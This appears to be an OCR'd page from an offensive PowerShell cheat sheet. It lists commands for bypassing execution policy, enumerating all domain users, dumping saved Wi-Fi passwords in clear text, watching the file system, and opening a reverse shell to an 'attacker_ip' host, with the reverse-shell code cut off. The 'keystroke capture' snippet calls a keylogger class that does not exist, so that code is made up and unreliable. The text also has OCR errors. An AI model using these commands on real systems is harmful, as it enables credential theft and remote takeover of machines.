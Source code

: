 ### Bypassing Execution Policy for Script Execution
Temporarily bypasses the script execution policy to run a PowerShell script, allowing execution of unsigned scripts.

```powershell
Set-ExecutionPolicy Bypass -Scope Process -Force; .\script.ps
```

### Enumerating Domain Users
Retrieves a list of all domain users, including their names, account status, and last logon dates.

```powershell
Get-ADUser -Filter * -Properties * | Select-Object -Property Name, Enabled, LastLogonDate
```

### Capturing Keystrokes

Captures and logs keystrokes to a le, which can be used for gathering sensitive information like passwords.

```powershell
$path = 'C:\temp\keystrokes.txt'; Add-Type -AssemblyName System.Windows.Forms; $listener = New-Object System.Windows.Forms.Keylogger; [System.Windows.Forms.Application]::Run($listener); $listener.Keys | Out-File -FilePath $path
```

### Extracting Wi-Fi Profiles and Passwords
Extracts Wi-Fi network proles and their associated passwords stored on the system.

```powershell
netsh wlan show profiles | Select-String -Pattern 'All User Profile' -AllMatches | ForEach-Object { $_
-replace 'All User Profile *: ', '' } | ForEach-Object { netsh wlan show profile name="$_" key=clear }
```

### Monitoring File System Changes
Sets up a monitor on the le system to track and log any changes, such as le creation, which can be useful for detecting suspicious activity.

```powershell
$watcher = New-Object System.IO.FileSystemWatcher; $watcher.Path = 'C:\';
$watcher.IncludeSubdirectories = $true; $watcher.EnableRaisingEvents = $true; Register-ObjectEvent
$watcher 'Created' -Action { Write-Host 'File Created: ' $Event.SourceEventArgs.FullPath }
```

### Creating Reverse Shell

Establishes a reverse shell connection to a specied attacker-controlled machine, allowing remote command
execution.

```powershell
$client = New-Object System.Net.Sockets.TCPClient('attacker_ip', attacker_port); $stream =
$client.GetStream(); [byte[]]$bytes = 0..65535...
```
